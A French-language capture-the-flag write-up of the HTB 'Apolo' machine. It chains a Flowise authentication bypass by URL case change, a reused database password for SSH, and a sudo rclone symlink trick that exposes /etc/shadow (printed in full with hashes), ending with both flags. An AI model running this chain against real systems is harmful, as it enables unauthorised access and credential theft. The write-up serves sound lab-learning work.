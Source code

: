 ```yaml
---
title: HTB University CTF 2024 Binary Badlands - Apolo
date: 2024-12-13
tags: 
- web
- privesc
category: 
- ctf
- fullpwn
---
```


# Découverte du challenge

Sur la machine, nmap trouve deux services: ssh et http.

Un site web: http://apolo.htb/
En creusent un peu, on tombe sur un sous domaine : ai.apolo.htb

Ce sous domain héberge une instance de "Flowise AI". 
En cherchant sur interne, on tombe sur une vulnérabiltié permettant de bypasser le système d'authentification 

# Bypasser l'authentification (CVE-2024-31621) 

https://www.exploit-db.com/exploits/52001
```
The flowise version <= 1.6.5 is vulnerable to authentication bypass
vulnerability.
The code snippet

this.app.use((req, res, next) => {
>                 if (req.url.includes('/api/v1/')) {
>                     whitelistURLs.some((url) => req.url.includes(url)) ?
> next() : basicAuthMiddleware(req, res, next)
>                 } else next()
>             })


puts authentication middleware for all the endpoints with path /api/v1
except a few whitelisted endpoints. But the code does check for the case
sensitivity hence only checks for lowercase /api/v1 . Anyone modifying the
endpoints to uppercase like /API/V1 can bypass the authentication.
```

En utilisant cette vulnérabilité, on peut se connecter sur l'instance.
Dans la partie "Credentials", on retrouve les identifiants utilisées pour se connecter à la base de donnée du serveur. 

```
mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority
```
On essaie de se connecter à la machine via ssh sur l'utilisateur lewis et le mot de passe C0mpl3xi3Ty!_W1n3, et ça passe! 

# Privilege escalation (CVE-2024-52522)
En listant les droits de l'utilisateur lewis, on peut voir que : 
```
$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```
On peut utiliser la commande /usr/bin/rclone en tant que root.

Ce programme importe une vulnérabilité permettant d'avoir une lecture arbitraire sur le fichier/répertoire de notre choix.

Typiquement, voici un test pour vérifier que la vuln fonctionne : 
```
lewis@apolo:~$ ln -s /etc/shadow /home/lewis/shadow
lewis@apolo:~$ sudo rclone copy /home/lewis/ /tmp/home_new --links --metadata --log-level=DEBUG
lewis@apolo:~$ ls -la /etc/shadow
-rwxrwxrwx 1 lewis lewis 1214 Dec  4 13:10 /etc/shadow
```

On peut voir que les droits du fichier /etc/shadow ont été écrasés par ceux de lewis ! 
Ce qui nous permet de lire le fichier en tant que lewis
```
lewis@apolo:~$ cat /etc/shadow
root:$6$tXGOWajYaarOSaBl$3ERntPuO48c8RpGIPf/qrfLqezppfW/t0wqRTpzjmaBLYLVWBj.TrLkgJdVKdQeh2cjoBwQ6dVU98ckLQgCCG0:20024:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
sshd:*:18389:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18822:0:99999:7:::
lewis:$6$BtGmTbbtNVkg/W2N$nLwk34e22.8xnscxEV2IfL0SD1xvuwWaVlAaQBGOWk2cGA9dfUpzXhONLr5wu8mGuzRX2ZEPm1NFuPeni4K9r1:20024:0:99999:7:::
fwupd-refresh:*:20041:0:99999:7:::
_laurel:!:20061::::::
``` 

De la même manière, on peut faire un lien symbolique avec /root pour obtenir les droits sur ce répertoire, et ainsi obtenir le flag root.

# Résultat
```
lewis@apolo:~$ cat /root/root.txt 
HTB{cl0n3_rc3_f1l3}
lewis@apolo:~$ cat user.txt 
HTB{llm_ex9l01t_4_RC3}
```
